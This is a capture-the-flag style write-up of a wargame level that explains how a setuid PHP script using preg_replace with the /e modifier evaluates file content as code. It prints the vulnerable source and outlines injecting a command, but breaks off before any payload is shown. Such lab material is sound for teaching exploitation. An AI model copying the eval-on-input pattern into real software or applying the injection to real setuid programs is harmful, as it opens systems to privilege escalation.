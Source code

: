 ## Exploring the exercice

```bash 
$ ls -la
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
-r-x------  1 level06 level06  675 Apr  3  2012 .profile
```

We have an executable and a .php file.

Since we can execute the level06 let's try it.

```bash 
$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```

We see that he expects an argument. Let's try :
```bash 
$ ./level06 coucou
PHP Warning:  file_get_contents(coucou): failed to open stream: No such file or directory in /home/user/level06/level06.php on line 4
```

Okay so it waits for a file.
Let's look at the .php file itself.

```bash 
$ cat level06.php 
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

This script reads a file, processes its content through string manipulations, and outputs the modified result.

The  '/e' option in the preg_replace function, allows content  to be evalauted as code, allowing us to execute comnmands.

Same as the previous exercice we are going to inject 'getflag' in script. Only the syntax will change but the principle stays the same.


```bash 
$ echo 
?>


